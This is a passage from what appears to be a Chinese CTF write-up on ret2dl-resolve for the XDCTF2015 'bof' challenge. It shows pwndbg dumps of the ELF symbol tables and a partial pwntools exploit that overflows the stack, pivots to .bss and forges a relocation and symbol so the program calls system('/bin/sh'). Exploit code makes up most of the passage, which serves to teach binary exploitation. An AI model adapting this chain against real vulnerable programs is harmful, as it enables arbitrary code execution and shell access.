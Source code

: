 ```
pwndbg> x /16xb 0x8048238
0x8048238:      0x4c    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x8048240:      0x00    0x00    0x00    0x00    0x12    0x00    0x00    0x00
```
可以发现`Elf32_Word st_name=0x4c`，也就是说 `.dynstr+04c`就是字符串write的地址.

```
pwndbg> x /s 0x08048278+0x4c
0x80482c4:      "write"
```
然后我们就可以伪造`.st_name`，把write改成system...  
好长的ROP啊

## exp
“你猜怎么伪造`.st_name`”

```py
#!/usr/bin/python

from pwn import *
elf = ELF('bof')
offset = 112
read_plt = elf.plt['read']
write_plt = elf.plt['write']

ppp_ret = 0x08048619 # ROPgadget --binary bof --only "pop|ret"
pop_ebp_ret = 0x0804861b
leave_ret = 0x08048458 # ROPgadget --binary bof --only "leave|ret"

stack_size = 0x800
bss_addr = 0x0804a040 # readelf -S bof | grep ".bss"
base_stage = bss_addr + stack_size

r = process('./bof')

r.recvuntil('Welcome to XDCTF2015~!\n')
payload = 'A' * offset
payload += p32(read_plt) # 读100个字节到base_stage
payload += p32(ppp_ret)
payload += p32(0)
payload += p32(base_stage)
payload += p32(100)
payload += p32(pop_ebp_ret) # 把base_stage pop到ebp中
payload += p32(base_stage)
payload += p32(leave_ret) # mov esp, ebp ; pop ebp ;将esp指向base_stage
r.sendline(payload)

cmd = "/bin/sh"
plt_0 = 0x08048380
rel_plt = 0x08048330
index_offset = (base_stage + 28) - rel_plt
write_got = elf.got['write']
dynsym = 0x080481d8
dynstr = 0x08048278
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf) # 这里的对齐操作是因为dynsym里的Elf32_Sym结构体都是0x10字节大小
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10 # 除以0x10因为Elf32_Sym结构体的大小为0x10，得到write的dynsym索引号
r_info = (index_dynsym << 8) | 0x7
fake_reloc = p32(write_got) + p32(r_info)
st_name = 0x4c
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

payload2 = 'AAAA'
```